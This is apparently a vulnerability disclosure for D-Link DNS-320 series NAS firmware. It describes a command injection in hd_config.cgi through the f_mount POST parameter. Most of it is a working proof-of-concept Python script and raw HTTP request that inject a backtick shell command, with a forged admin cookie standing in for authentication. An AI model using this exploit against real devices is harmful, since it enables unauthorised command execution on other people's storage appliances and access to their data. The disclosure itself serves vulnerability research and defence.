# Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_FMT_R12R5_3rd_DiskMGR function of the file /cgi-bin/hd_config.cgi.  The variable `f_mount`is passed from a POST request and is assigned to `v3` via the `sprintf` function at line 18 and invoked by the `system` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723735773148-cb2e2635-9188-48b8-893e-3fefa4d4abe6.png#averageHue=%23fbfbf9&clientId=u78fd0ca8-2d90-4&from=paste&height=281&id=udce2245f&originHeight=281&originWidth=1140&originalType=binary&ratio=1&rotation=0&showTitle=false&size=52994&status=done&style=none&taskId=u66091734-fe43-4c6a-a80e-ee911fa5e8b&title=&width=1140)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/hd_config.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_FMT_R12R5_3rd_DiskMGR&f_volume_name=1&f_mount=`touch+/tmp/127`"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

```
POST /cgi-bin/hd_config.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 70
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_FMT_R12R5_3rd_DiskMGR&f_volume_name=1&f_mount=`touch+/tmp/127`
```

